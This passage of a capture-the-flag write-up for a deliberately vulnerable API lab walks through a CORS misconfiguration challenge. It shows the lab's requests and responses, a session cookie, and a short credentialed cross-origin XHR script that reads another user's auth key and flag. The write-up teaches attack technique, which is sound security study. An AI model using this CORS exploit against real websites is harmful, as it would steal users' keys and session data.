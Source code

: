 We also get our flag 6: `flag{api6_afb969db8b6e272694b4}`

---

## API 7 [Security Misconfiguration]
> Hey , its an API right? so we ARE expecting Cross Origin Requests . We just hope it works fine.

Let's first create a new user:

```js
Request => "POST http://{{host}}/vapi/api7/user"
{
    "username":"usser123",
    "password":"pass123"
}
Response =>
{
    "username": "usser123",
    "password": "pass123",
    "id": 2
}
```

We can access the user's authkey by making a GET request like this:
```js
Request => "GET http://{{host}}/vapi/api7/user/key"
Response =>
{
    "id": 2,
    "username": "usser123",
    "password": "pass123",
    "authkey": "1bf6f7e3e2af95b6bef129f9dd81c68078d9437b46ca7a13b292a2a6d1cd154d"
}
```

However, when we send a request with the `Origin` header, we also receive the flag contents.
Let's make a CORS exploit which automatically grabs the flag for us:
```html
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('GET','http://192.168.29.147/vapi/api7/user/key');
	xhr.withCredentials = true;
	xhr.send()
	xhr.onreadystatechange = () => { alert(JSON.parse(xhr.response)["flag"]) }
</script>
```

I will host that page on port 9999. Since origin from different ports are considered different, the request originating from this script will be a cross-origin request. 
We don't have any live target user. So we can add our own cookie to the browser.
```
PHPSESSID=b2c9d5058ee32faab05a0de61575533b
```

Now, when we load the page, we get the flag displayed in the alert as shown below:
